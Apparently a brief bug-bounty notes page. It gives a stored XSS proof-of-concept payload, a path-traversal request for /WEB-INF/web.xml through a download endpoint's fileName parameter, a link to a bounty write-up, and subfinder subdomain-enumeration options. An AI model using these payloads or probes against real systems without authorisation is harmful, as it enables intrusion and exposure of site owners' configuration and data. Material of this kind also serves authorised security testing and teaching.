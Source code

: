 # Payload Stored XSS
<img src=x onerror​=alert(origin)>
# Payload LFI
Since we are working in a Java environment, I attempted to read /WEB-INF/web.xml because this file often contains a lot of useful information. By navigating to http://admin.target:8443/admin/download?fileName=/WEB-INF/web.xml, I was able to access some juicy information.! https://medium.com/@HX007/a-journey-of-limited-path-traversal-to-rce-with-40-000-bounty-fc63c89576ea




## subdomain finder

-*- subfinder -d wimerasys.com -v  
      -d = particular one domain enumurate
      -dl = Maltipull domain enumurate from a file 
      -o, -output string = file to write output to
      -silent = show only subdomains name in output
      -nW, -active = display active subdomains only
      -oI, -ip = include IP address and domain name in output (-active only)
      -max-time int = minutes to wait for enumeration results (default 10)
      -ei, -exclude-ip = exclude IPs from the list of domains
